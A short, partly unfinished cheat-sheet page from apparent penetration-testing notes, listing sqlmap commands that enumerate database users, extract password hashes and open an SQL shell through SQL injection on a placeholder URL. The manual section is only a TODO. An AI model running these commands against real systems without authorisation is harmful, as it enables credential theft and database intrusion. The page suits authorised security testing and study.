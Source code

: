 # 05 - Credentials

Search Tag: #sqlmap #enumeration-and-discovery #credential-access-and-dumping #data-exfiltration

## Automated

- Enumerate user database accounts.

```
$ sqlmap -u <URL> --random-agent --users
```

- Extract user database passwords.

```
$ sqlmap -u <URL> --random-agent --passwords
```

## Manually

TODO: Fill this info

```
$ sqlmap -u <URL> --random-agent --sql-shell
```